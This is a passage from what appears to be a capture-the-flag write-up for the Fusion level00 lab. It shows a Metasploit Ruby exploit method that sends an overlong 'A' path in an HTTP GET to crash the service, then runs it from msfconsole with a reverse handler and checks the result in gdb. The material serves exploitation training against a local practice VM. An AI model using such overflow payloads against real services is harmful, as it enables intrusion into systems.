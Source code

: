 Remember to replace the `register_options` array with the IP of your local fusion VM. In hopes of causing a crash lets modify the exploit method to send a payload with an overly long string of 'A' characters for the path.


{% highlight Ruby %}
def exploit
  # Open a TCP connection to the server
  connect

  # Recieve the servers debug message
  data = sock.recv(1024)

  # Create our payload
  filename = "/home/fusion/" + "A" * 500
  sploit = "GET #{filename} HTTP/1.1\r\n" + "B" * 500

  # Send the payload
  sock.put(sploit)

  handler
  disconnect
end
{% endhighlight %}

Send the exploit and check gdb:

{% highlight bash %}
pwf@ubuntu:/opt/metasploit-framework$ msfconsole
[*] Starting the Metasploit Framework console...\

  Metasploit Park, System Security Interface
  Version 4.0.5, Alpha E
  Ready...
  > access security
  access: PERMISSION DENIED.
  > access security grid
  access: PERMISSION DENIED.
  > access main security grid
  access: PERMISSION DENIED....and...
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!


       =[ metasploit v4.11.0-dev [core:4.11.0.pre.dev api:1.0.0]]
+ -- --=[ 1438 exploits - 809 auxiliary - 230 post        ]
+ -- --=[ 363 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/fusion/level00
msf exploit(level00) > exploit

[*] Started reverse handler on 192.168.79.129:4444
msf exploit(level00) >

......switch to gdb console.....

(gdb) c
Continuing.